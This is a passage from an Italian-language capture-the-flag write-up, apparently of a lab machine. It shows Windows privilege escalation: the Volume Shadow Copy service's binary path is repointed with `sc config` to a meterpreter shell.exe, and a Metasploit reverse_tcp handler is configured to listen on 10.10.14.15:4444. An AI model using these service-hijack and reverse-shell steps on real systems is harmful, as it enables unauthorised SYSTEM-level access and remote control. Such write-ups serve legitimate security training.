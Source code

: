Modificheremo il percorso del servizio `vss` che è stopped
```
C:\Users\svc-printer\Documents>sc query vss
sc query vss

SERVICE_NAME: vss 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 1  STOPPED 
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

e ha questo percorso:
```
C:\Users\svc-printer\Documents>sc qc vss
sc qc vss
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: vss
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\vssvc.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Volume Shadow Copy
        DEPENDENCIES       : RPCSS
        SERVICE_START_NAME : LocalSystem

C:\Users\svc-printer\Documents>
```

Quindi cambiamo percorso di vss con quello della shell di meterpreter che abbiamo giù usato /shell.exe) con il comando `sc config vss binPath="C:\Users\svc-printer\Documents\shell.exe"`

Apriamo un'altra sessione di msfconsole e usiamo multi/handler con le stesse opzioni di prima:
```
Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```
